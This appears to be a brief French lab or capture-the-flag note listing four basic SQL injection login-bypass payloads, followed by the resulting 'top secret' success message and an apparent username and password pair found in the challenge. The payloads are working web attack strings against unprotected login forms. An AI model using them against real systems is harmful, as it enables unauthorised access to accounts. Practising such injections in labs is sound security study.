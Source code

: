 # Payloads pour Basics Injections SQL :

- Payload 1 : ' OR '1
- Payload 2 : ' OR 1 -- -
- Payload 3 : ' OR '' = '
- Payload 4 : ' OR 'x'='x

**You have logged in. Here's my top secret message:** *I am a unicorn. SHHH! Don't tell anyone.*

## Who are those guys ?

bob abc123 et joe smith ??
